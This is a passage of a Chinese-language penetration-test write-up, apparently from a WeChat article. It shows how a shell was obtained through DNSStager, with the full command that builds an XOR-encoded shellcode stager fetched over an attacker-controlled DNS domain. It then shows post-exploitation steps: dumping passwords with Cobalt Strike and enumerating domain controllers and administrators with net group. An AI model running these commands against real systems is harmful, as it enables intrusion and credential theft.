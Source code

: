 最后参考《DNSStager-DNS 分离 shellcode》：

[https://mp.weixin.qq.com/s/bM_rsh8KxXwwyEkbHRTKsw](https://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497134&idx=1&sn=84c583af97d758acfa8f9a3621b5a39d&scene=21#wechat_redirect) 终于成功获取了 shell。

首先安装 ming-w64，将 CDN 服务端解析的 NS 记录添加一个 test.*.tk:

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6hP1HWYOeKY7nbFibPw6NyKhYHGrCvAVoyd6pKPACwMYJf9MtyJwqBnA/640?wx_fmt=png)

最后在 vps 处执行：

```
python3 dnsstager.py --domain test.*.tk --payload x64/c/ipv6 --output /home/a2.exe --prefix cdn- --shellcode_path /home/DNSStager/payload.bin --sleep 1 --xorkey 0x10
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6gjoUicXKeCUGTzS7gDPCO2Q88IqAuiauJarLq0m0kH6oriadG9uGNqcjA/640?wx_fmt=png)

上传执行后终于获取：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU65cTfUeaZQ9BOhNnZnS397uNbuDqyo6OHJGn0Sic5GcXJZb0AicwTxcJw/640?wx_fmt=png)

如图：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6O5qmfyh6KPhQRT6tF1UsvxyqUjly8l7qEKNJL4F0NfZlrI8PxPwIbg/640?wx_fmt=png)

终于可以喘口气，拿下了。

**四：简单后渗透**
-----------

### **4.1 内网信息收集**

cs 的自带功能，抓取密码：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6CV7FibvCgSNmc85UtgzLw0kC3d5floeyANtRcs8mhqtePdEicUkz2uGg/640?wx_fmt=png)

获取到当前用户密码：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6Cfibfl7ialw9g7ickxN6Z3ounMfF1Qz5ib7e0zfGiaFZHiantMNVQBibLetVw/640?wx_fmt=png)

查看进程列表，发现其余进程均为低权限和 system 进程，说明无其他用户在此登录。

既然有域，那就进行一下域内信息收集，发现好像有各种限制:

```
net group "domain controllers" /domain
```

查看域控制器：  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6jHgXWnqnR1icyuBagQGXgzCqdEKAkdFot5Q1ibvuiaR3rL0GEoiaLkvpsw/640?wx_fmt=png)

```
net group "domain admins" /domain
```

也是如此：  

